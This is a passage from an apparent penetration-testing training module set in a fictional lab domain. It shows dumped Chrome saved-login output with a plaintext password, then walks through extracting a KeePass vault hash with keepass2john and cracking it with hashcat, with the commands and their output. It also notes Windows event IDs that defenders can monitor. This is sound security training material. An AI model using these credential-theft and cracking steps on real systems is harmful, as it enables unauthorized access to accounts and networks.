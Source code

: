 ```powershell-session
C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data,https://vc01.inlanefreight.local/,https://vc01.inlanefreight.local/ui,4/12/2021 5:16:52 PM,13262735812597100,bob@inlanefreight.local,Welcome1
```

> [!NOTE]
> Credential collection from Chromium-based browsers generates additional events that could be logged and identified as `4983`, `4688`, and `16385`, and monitored by the blue team.

---

## Password Managers

Many companies provide password managers to their users. This may be in the form of a desktop application such as `KeePass`, a cloud-based solution such as `1Password`, or an enterprise password vault such as `Thycotic` or `CyberArk`. Gaining access to a password manager, especially one utilized by a member of the IT staff or an entire department, may lead to administrator-level access to high-value targets such as network devices, servers, databases, etc. We may gain access to a password vault through password reuse or guessing a weak/common password. Some password managers such as `KeePass` are stored locally on the host. If we find a `.kdbx` file on a server, workstation, or file share, we know we are dealing with a `KeePass` database which is often protected by just a master password. If we can download a `.kdbx` file to our attacking host, we can use a tool such as [keepass2john](https://gist.githubusercontent.com/HarmJ0y/116fa1b559372804877e604d7d367bbc/raw/c0c6f45ad89310e61ec0363a69913e966fe17633/keepass2john.py) to extract the password hash and run it through a password cracking tool such as [Hashcat](https://github.com/hashcat) or [John the Ripper](https://github.com/openwall/john).

#### Extracting KeePass Hash

First, we extract the hash in Hashcat format using the `keepass2john.py` script.

```shell-session
slomkm@htb[/htb]$ python2.7 keepass2john.py ILFREIGHT_Help_Desk.kdbx 

ILFREIGHT_Help_Desk:$keepass$*2*60000*222*f49632ef7dae20e5a670bdec2365d5820ca1718877889f44e2c4c202c62f5fd5*2e8b53e1b11a2af306eb8ac424110c63029e03745d3465cf2e03086bc6f483d0*7df525a2b843990840b249324d55b6ce*75e830162befb17324d6be83853dbeb309ee38475e9fb42c1f809176e9bdf8b8*63fdb1c4fb1dac9cb404bd15b0259c19ec71a8b32f91b2aaaaf032740a39c154
```

#### Cracking Hash Offline

We can then feed the hash to Hashcat, specifying [hash mode](https://hashcat.net/wiki/doku.php?id=example_hashes) 13400 for KeePass. If successful, we may gain access to a wealth of credentials that can be used to access other applications/systems or even network devices, servers, databases, etc., if we can gain access to a password database used by IT staff.

```shell-session
slomkm@htb[/htb]$ hashcat -m 13400 keepass_hash /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$keepass$*2*60000*222*f49632ef7dae20e5a670bdec2365d5820ca1718877889f44e2c4c202c62f5fd5*2e8b53e1b11a2af306eb8ac424110c63029e03745d3465cf2e03086bc6f483d0*7df525a2b843990840b249324d55b6ce*75e830162befb17324d6be83853dbeb309ee38475e9fb42c1f809176e9bdf8b8*63fdb1c4fb1dac9cb404bd15b0259c19ec71a8b32f91b2aaaaf032740a39c154:panther1
                                                 
```